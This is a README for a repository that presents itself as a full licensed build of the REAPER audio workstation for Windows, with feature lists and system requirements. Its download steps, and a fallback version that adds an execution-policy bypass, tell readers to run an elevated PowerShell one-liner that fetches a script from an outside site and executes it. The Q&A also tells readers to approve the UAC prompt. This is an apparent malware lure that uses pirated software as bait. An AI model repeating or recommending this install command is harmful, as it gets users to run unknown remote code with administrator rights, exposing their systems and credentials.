

***

# REAPER Licensed Full

<p align="center">
  
</p>

REAPER Licensed Full — Windows 11 and 10 build | flexible routing | stem renders.

## About this application

**REAPER Licensed Full** in this repo is a Windows desktop package for engineers tracking and mixing. Expect a guided first launch, access to the DAW desk with tracks, routing, and render, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

REAPER Licensed Full suits engineers tracking and mixing who need a straightforward Windows install and a focused tracks, routing, and render workflow.

## What's included

DAW desk tools are bundled in this release. Install locally, open the app, and use the tracks, routing, and render toolkit right away.

## Features

⚡ Item edit
🧩 FX chain
🔀 Sends
✨ Stem render
🗂️ Track folders
🎹 MIDI
📉 Meters

## Good for

- 📌 Project studios
- 🎯 Podcast mix
- ⭐ School DAW labs

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 8 GB minimum | 16 GB recommended
* **Disk:** 4 GB available storage

***